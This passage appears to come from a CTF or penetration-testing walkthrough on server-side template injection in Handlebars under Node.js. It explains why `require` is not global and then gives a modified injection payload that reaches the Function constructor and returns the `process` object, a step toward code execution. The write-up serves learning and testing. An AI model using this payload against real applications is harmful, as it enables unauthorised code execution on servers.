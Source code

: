 In Node.js, `require` is not in the global scope because it is designed to be local to each module. This promotes modularity and encapsulation, ensuring that modules do not interfere with each other's dependencies. By keeping `require` scoped to the module level, Node.js prevents conflicts and potential security issues that could arise from having a global `require` function accessible from anywhere in the application.

Go to: https://nodejs.org/api/globals.html

Let's focus at the `process`.

It is time to modify previous payload:

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```
